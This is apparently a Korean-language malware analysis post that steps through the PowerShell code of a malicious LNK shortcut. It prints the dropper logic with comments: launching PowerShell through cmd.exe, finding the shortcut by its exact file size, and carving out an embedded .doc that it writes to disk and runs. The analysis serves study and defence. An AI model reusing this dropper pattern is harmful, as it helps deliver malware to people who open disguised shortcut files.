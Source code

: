 ![IMG-lnk 분석-20241208165231069](../images/2024-12-07-LNK-Malware-Analysis/IMG-lnk 분석-20241208165231069.png)



#### 1. powershell.exe를 검색하여 실행하는 코드

```powershell
# powershell 폴더에서 powershell을 실행하기 위한 코드
"C:\Windows\SysWOW64\cmd.exe" /k for /f "tokens=*" %a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\*rshell.exe /s /b /od') do call %a
```



#### 2. lnk 파일 식별 후, 파일 객체 생성

```powershell
# $dirPath = Get-Location 현재 디렉토리를 변수로 저장
$dirPath = Get-Location;

# 만약 $dirPath가 System32거나 Program Files면 $dirPath를 C:\Users\user\AppData\Local\Temp로 업데이트
if($dirPath -Match 'System32' -or $dirPath -Match 'Program Files') {$dirPath = 'C:\Users\user\AppData\Local\Temp'};

# *.lnk로된 파일 중 크기가 0x0325E0BC인 파일을 찾아 FullName을 $lnkPath로 설정
$lnkPath = Get-ChildItem -Path $dirPath -Recurse *.lnk | where-object {$_.length -eq 0x0325E0BC} | Select-Object -ExpandProperty FullName;

# $lnkPath를 열어 $lnkFile로 새 객체 생성
$lnkFile=New-Object System.IO.FileStream($lnkPath, [System.IO.FileMode]::Open, [System.IO.FileAccess]::Read);
```



#### 3. lnk 파일 내부에서 sample2.doc 파일 추출 및 실행

```powershell
# $lnkFile에서 0x0000108E 값을 찾음.
$lnkFile.Seek(0x0000108E, [System.IO.SeekOrigin]::Begin);

# $pdfFile 객체를 생성, 크기 0x0087F800
$pdfFile=New-Object byte[] 0x0087F800;

# $lnkFile에서 찾은 0x0000108E 부터 0x0087F800크기 만큼 읽음
$lnkFile.Read($pdfFile, 0, 0x0087F800);

# .lnk 확장자를 .doc로 변경하여 $pdfPath로 저장
$pdfPath = $lnkPath.replace('.lnk','.doc');

# Set-Content로 pdfFile의 내용을 Byte로 인코딩하여 $pdfPath에 저장
sc $pdfPath $pdfFile -Encoding Byte;

# pdfPath 실행
& $pdfPath;
```
